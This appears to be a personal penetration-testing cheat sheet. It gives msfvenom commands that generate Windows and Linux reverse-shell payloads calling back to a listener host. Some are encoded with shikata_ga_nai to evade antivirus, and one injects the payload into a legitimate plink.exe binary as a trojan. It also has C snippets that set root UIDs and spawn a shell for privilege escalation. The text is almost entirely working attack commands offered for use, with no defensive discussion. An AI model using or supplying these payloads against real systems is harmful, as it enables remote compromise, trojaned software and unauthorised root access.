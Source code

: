 # Shell creation with msfvenom
## Windows PE
```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.6 LPORT=444 -f exe -o shell_reverse.exe
```
- Encoded (**-e** to specify encoder type and **-i** to setup the number of iterations)
	```bash
	msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
	```
	- This does not work with modern AVs.

- Inject a payload into an existing PE
	```bash
	msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windowsresources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
	```
## Linux ELF File
```bash
kali@kali:~$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf
```

# Shells & Reverse Shells

## **Shells & Reverse Shells**

-   bin/bash:
	```c
	int main(void){

	setresuid(0, 0, 0);

	system("/bin/bash");

	}
	```
	
-   bin/sh:
	```c
	int main(void){

	setresuid(0, 0, 0);

	system("/bin/sh");

	}
	```

